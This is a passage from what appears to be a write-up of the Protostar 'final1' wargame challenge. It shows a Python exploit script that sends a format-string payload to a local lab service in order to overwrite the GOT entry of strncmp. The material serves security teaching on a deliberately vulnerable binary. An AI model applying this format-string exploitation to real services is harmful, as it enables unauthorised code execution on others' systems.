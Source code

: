 ![fix-alignment](/public/image/protostar-final/fix-alignment.png)

Great! The alignment issue is fixed. Now, we determine how many characters have been printed so we can precisely overwrite `strncmp()`.

```shell
import socket, struct

HOST = '127.0.0.1'
PORT = 2994
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

def read_until(check):
        buf = ''
        while check not in buf:
                buf += s.recv(1)
        return buf

# handle misalignment
host, port = s.getsockname()
hostname = host + ":" + str(port)

pad = 'A' * (24 - len(hostname))
strncmp_got = 0x804a1a8
username = pad + 'BBBB' + struct.pack("I", strncmp_got) + '%18$n'
login = 'CCCC' 

print read_until('[final1] $ ')
s.send('username ' + username + '\n')
print read_until('[final1] $ ')
s.send('login ' + login + '\n')
print read_until('[final1] $ ')
raw_input('waiting... hit [enter]')
```
